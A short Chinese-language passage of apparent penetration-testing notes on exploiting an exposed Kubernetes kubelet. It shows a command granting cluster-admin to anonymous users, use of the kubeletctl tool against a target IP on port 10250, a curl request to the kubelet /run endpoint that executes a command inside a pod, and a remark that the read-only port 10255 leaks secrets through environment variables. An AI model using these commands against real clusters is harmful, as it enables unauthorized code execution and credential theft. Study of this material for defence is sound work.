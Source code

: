 - 开启匿名访问后，可以走通authentication，但是authorization这里过不去，没权限看pod。如果管理员同时也给匿名用户开了cluster-admin等大权限，那就可以通过kubelet访问到集群资源

  ~~~sh
  kubectl create clusterrolebinding anno-admin --clusterrole=cluster-admin --user=system:anonymous
  ~~~

- 攻击者可以通过kubeletctl这个工具进入到集群pod里面

  ~~~sh
  #在攻击机上安装kubeletctl工具
  mv kubeletctl_linux_amd64 /bin/kubeletctl
  chmod +x /bin/kubeletctl
  #查看这个节点上运行的pod、ns、containers
  kubeletctl pods -s 172.16.183.76 --port 10250 #写被攻击的kubelet所在的机器IP
  #直接进去跑个命令
  curl -k https://172.16.183.76:10250/run/default/nginx-test-74856fddd7-vcckp/nginx -d "cmd=ls" --insecure
  ~~~

  - 如果是10255端口，是只读端口，无法攻击进去在容器中执行命令，但是可以获取环境变量ENV、主进程CMDLINE等信息，里面可能包含密码和秘钥等敏感信息。
